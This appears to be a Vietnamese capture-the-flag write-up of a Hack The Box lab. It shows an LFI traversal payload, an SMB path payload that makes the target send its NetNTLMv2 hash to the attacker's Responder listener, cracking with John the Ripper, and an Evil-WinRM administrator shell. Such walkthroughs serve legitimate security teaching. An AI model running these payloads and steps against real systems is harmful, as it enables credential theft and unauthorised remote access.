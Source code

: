 > Lab này tập trung vào Lỗ hổng File Inclusion trên trang web được hosted trên Windows machine can be exploited để thu nhập *NetNTLMv2 challege* của người dùng đang chạy web server với một công cụ là **Responder** để thu thập NetNTLMv2 hash và sau đó sử dụng **john the ripper** để giải mã mã băm.

######: File Inclusion: một lỗ hổng cho phép tin tặc truy cập trái phép vào những tập tin nhạy cảm trên máy web hoặc thực thi các tệp tin nhạy cảm trên máy chủ web hoặc thực thi các tệp tin độc hại bằng cách sử dụng chức năng "include". Lỗ hổng này xảy ra do cơ chế kiểm tra đầu vào không được thực hiện tốt, khiến tin tặc có thể khai khác và chèn dự liệu độc hại.
### 1. Tìm kiếm thông tin
###### IP: 10.129.95.234
##### + Kiểm tra kết nối:
` ping 10.129.95.234 `
##### + Kiểm tra cổng và dịch vụ:
` nmap -p- --min-rate 1000 -sV 10.129.95.234 `
###### --min-rate: cụ thể số packet mà Nmap gửi đi mỗi giây; số càng cao thì scan sẽ nhanh hơn
##### => 80/tcp http Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1).
##### => 5985/tcp http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP).
##### => Target đang sử dung hệ điều hành Windows. 2 Cổng phát hiện có Apache web server đang chạy trên cổng 80 cùng với *WinRM* trên cổng 5985.
###### WinRM (Windows Remote Management) là một protocol quản lý từ xa được tích hợp sẵn trong Win, dùng để tương tác với máy tính và server từ xa. WinRM cho phép người dùng giao tiếp từ xa với máy chủ, thực thi lệnh trên hệ thông, xem, quản lý và cấu hình server, hệ điều hành và máy khách từ xa.
##### + Đối với pentester, điều đó có nghĩa là chúng ta có thể tìm thông tin (như tên người dùng và mật khẩu) của người dùng có quyền thực thi lệnh từ xa và từ đó lấy được PowerShell trên máy chủ.
### 2. Xem xét qua các lỗ hổng
##### + Truy cập địa chỉ trang web:
` http://10.129.95.234 `
###### Có thể bỏ :80 đằng sau vì cổng 80 là mặc định
##### => Trang web trả về tin nhắn là không thể tìm thấy site đó. Tuy nhiên khi nhìn vào thanh tìm kiếm, nó hiện là *http://unika.htb*.
###### Trong trường hợp này, website đã điều hướng trình duyệt sang một đường link mới và máy chủ không biết cách tìm *unika.htb*. Webserver này đang sử dụng *Virtual Hosting* dựa trên tên để phục vụ các request.
###### Xem thêm về khái niệm Virtual Hosting: https://vietnix.vn/virtual-hosts/
##### + File /etc/hosts được sử dụng để chuyển hóa tên hostname sang IP address. Thêm *entry* cho /etc/hosts để giúp trình duyệt xử lý địa chỉ cho *unika.htb*:
` echo "10.129.95.234   unika.htb" | sudo tee -a /etc/hosts `
##### + Sau khi thực hiện lệnh, truy cập lại trang web:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/102fc7ae-a476-4502-808b-cf383e78d271)
##### + Truy cập trang web thành công, sau khi mày mò thử trang web, để ý thấy trong phần thay đổi ngôn ngữ từ *EN* sang *FR* - tiếng Anh sang tiếng Pháp thì sẽ thấy thanh URL như sau: 
` https//unika.htb/index.php?page=french.html `
##### => Lỗ hổng *File Inclusion*
##### + LFI, hay *Local File Inclusion* xảy ra khi attacker có thể làm cho website 'bao gồm' hay 'include' một file đáng lẽ ra không nên được nhìn thấy bởi người dùng trang web. Thường xảy ra khi ứng dụng sử dụng path của file như một input. Attacker có thể khai thác lỗ hổng này bằng cách sử dụng `../` để lùi về path trước đó.
##### + Thử xem trang web có lỗ hổng LFI hay không với lệnh sau: 
```
http://unika.htb/index.php? 
page=../../../../../../../../windows/system32/drivers/etc/hosts
```
###
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/b5405c79-c1bc-43da-bcdc-5b606bec612e)
##### => Có lỗ hổng LFI
###### Xem thêm về incldue() trong PHP ở dây: https://www.php.net/manual/en/function.include.php
### 3. Tấn công Lỗ hổng
##### + Vì File có lỗ hổng với LFI nên ta có thể chèn một file mã độc vào target với SMB URLs. 
##### + Vì Windows khi nhận một file có phương thức SMB, hệ thống sẽ có xác thực máy của chúng ta với NetNTMLv2 và ta sẽ bắt giữ hàm băm NetNTMLv2 nhằm bypass bước xác thực đó.
###### Xem thêm cách hoạt động của NTLM authen: https://www.ionos.com/digitalguide/server/know-how/ntlm-nt-lan-manager/
###### Xem thêm cách đẩy lên web SMB URL: https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds#lfi
##### + Đây sẽ là quy trình của cuộc tấn công này: 
```
Attacker: Set up một SMB giả với Responder, chờ đợi yêu cầu.
Attacker: Đẩy file bất kỳ lên web, bắt trang web yêu cầu include(), aka cố kết nối với server SMB. 
Target (trang web): Chứng minh xác thức với SMB giả kia.
Responder: Gửi một phương thức xác thực ('challenge') đến target, yêu cầu sử dụng mật khẩu của người dùng để xác thực.
Target: sử dụng mật khẩu người dùng, mã hóa nó để tạo phản hồi cho Responder.
Responder: sử dụng phản hồi mã hóa này kèm với 'challenge' ban đầu nó gửi cho target, tạo nên mã băm NetNTLMv2
Attacker: Sử dụng john the ripper để giải mã NetNTLMv2
Attacker: Sử dụng đoạn mã được giải truy cập vào WinRM
```
##### + Nếu chưa có Responder trên máy:
` git clone https://github.com/lgandx/Responder `
##### + Kiểm tra xem Responder.conf đã được set để lắng nghe các yêu cầu SMB chưa:
```
cat Responder.conf

[Responder Core]

; Server to start
SQL = On
SMB = On

...
```
###### + Kiểm tra giao diện mạng, chạy Responder:
```
ifconfig      # giao diện mạng : tun 0
sudo python3 Responder.py -I tun0
```
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/72aa226a-8104-4bc5-b89f-b61ec10a4d67)
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/99f661a9-5a6a-4b48-8e91-f414d06b0e1d)

##### + Như vậy, Responder đã sẵn sàng, ta thay đổi url trang web để bắt nó gửi yêu cầu đến SMB:
` http://unika.htb/?page=//10.10.14.32/somefile `
###### 10.10.14.32: IP của tun0
###### somefile: file ngẫu nhiên
###### + Sau đó, server sẽ thử load resource từ SMB server và Responder sẽ bắt giữ đủ thông tin và tạo NetNTLMv2:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/c1c3da6d-eefd-46bc-80e4-256465aadef6)

![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/c1020df6-8db1-4984-8fb0-7a5f1afcd0cf)

##### + Đã có được giá trị hàm băm, đẩy vào file để *john the ripper* xử lý:
```
echo <giá trị hash> > hash.txt
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

### 4. Khai thác thông tin
##### + Sau đó ta được mật khẩu cho user: *badminton* và tên user: *Administrator*. Kết nối với WinRM thông qua Evil-WinRM:
##### Eveil-WinRM là một tool chuyên dùng cho kết nối với WinRM với nhiều tính năng cho kiểm thử và khai thác lỗ hổng
```
evel-winrm -i 10.129.95.234 -u administrator -p badminton
Evil-WinRM shell v3.5
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> dir
...
*Evil-WinRM* PS C:\Users> cd mike
*Evil-WinRM* PS C:\Users> dir
....
*Evil-WinRM* PS C:\Users> cd Desktop; dir
*Evil-WinRM* PS C:\Users> type flag.txt
...
```
##### => Lấy flag thành công!
